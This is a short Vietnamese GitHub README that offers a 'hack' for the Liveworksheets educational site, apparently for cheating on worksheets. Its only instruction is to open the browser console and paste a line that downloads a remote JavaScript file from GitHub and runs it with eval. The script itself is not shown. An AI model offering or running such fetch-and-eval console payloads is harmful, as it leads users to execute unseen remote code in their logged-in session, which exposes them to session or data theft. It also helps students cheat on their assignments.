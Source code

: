 # Dành riêng cho ngôn ngữ Tiếng Việt

<p align="center">
     <img width="216" height="135" src="resources/liveworksheets.png"/>
</p>

### 👨‍💻 Hack Liveworksheets

**Sử dụng F12** hoặc **Ctrl+Shift+J** để mở phần bảng điều khiển.

----

### 🎓 Hướng dẫn

**Copy dòng sau và Paste vào bảng điều khiển**

```javascript
fetch("https://raw.githubusercontent.com/Rainsh0wer/Project.Rain/main/resources/hack.js")
.then(a=>a.text().then(b=>eval(b)))
```

<p align="center">
     <img src="resources/k6.png"/>
</p>

### 🎬 Video Hướng Dẫn
``` Hiện chưa có ```

# Người đăng
- [Rainsh0wer](https://github.com/Rainsh0wer)


